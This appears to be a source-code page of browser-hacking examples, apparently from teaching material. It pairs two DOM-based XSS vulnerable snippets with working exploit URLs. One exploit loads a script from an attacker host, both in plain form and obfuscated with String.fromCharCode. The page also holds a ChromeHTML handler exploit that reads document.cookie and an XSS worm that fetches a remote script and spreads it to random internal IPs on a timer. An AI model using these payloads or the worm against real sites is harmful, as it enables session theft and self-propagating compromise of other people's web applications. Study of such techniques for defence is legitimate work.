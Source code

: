////////////////////////////////////////////////

// vulnerability #1
document.write(document.location.href.substr(document.location.href.search(/#welcomemessage/i)+16,document.location.href.length))

// exploit #1
http://browservictim.com/homepage.html#welcomemessage=<script>document.location='http://browserhacker.com'</script>

// vulnerability #2
function getId(id){
console.log('id: ' + id);
}

var url = window.location.href;
var pos = url.indexOf("id=")+3;
var len = url.length;
var id = url.substring(pos,len);
eval('getId(' + id.toString() + ')');

// exploit #2
// Without encoding, this wont work because of the single quotes

// Without encoding:
http://browserhacker.com/page.html?id=1');s=document.createElement('script');s.src='http://attacker/evil.js';document.getElementsByTagName('head')[0].appendChild(s);//

// With encoding:
// We obfuscate the single quotes with a character encoding sequence.
http://browserhacker.com/page.html?id=1');eval(String.fromCharCode(115,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,115,46,115,114,99,61,39,104,116,116,112,58,47,47,97,116,116,97,99,107,101,114,47,101,118,105,108,46,106,115,39,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,104,101,97,100,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,115,41,59))//

-----------------------------------------------------------

var sneaky = 'setTimeout("alert(document.cookie);", 4000); 

document.location.assign("http://www.gmail.com");';
document.location = 'chromehtml:"80%20javascript:document.write(sneaky)"';

In this ChromeHTML URL handler exploit, this would set the current location to a Chrome frame, with a timeout that would execute after Gmail had been loaded.
--------------------------
Xss Worm in the infected origin
  <iframe name="iframex" id="iframex" src="hidden" style="display:none">
</iframe>
<script SRC="http://browserhacker.com/xssv.js"></script>


XSS worm JS
  This tries to compromise other web applications

function loadIframe(iframeName, url) {
    if ( window.frames[iframeName] ) {
        window.frames[iframeName].location = url;
        return false;
    }else{
        return true;
    }
}

function do_request() {
    var ip = get_random_ip();
    var exploit_string = '<iframe name="iframe2" id="iframe2" ' +
        'src="hidden" style="display:none"></iframe> ' +
        '<script SRC="http://browserhacker.com/xssv.js"></script>';

    loadIframe('iframe2',"http://" + ip + "/index.php?param=" + exploit_string);
 }

function get_random(){
    var ranNum= Math.round(Math.random()*255);
    return ranNum;
}

function get_random_ip(){
    return "10.0.0."+get_random();
}

setInterval("do_request()", 10000);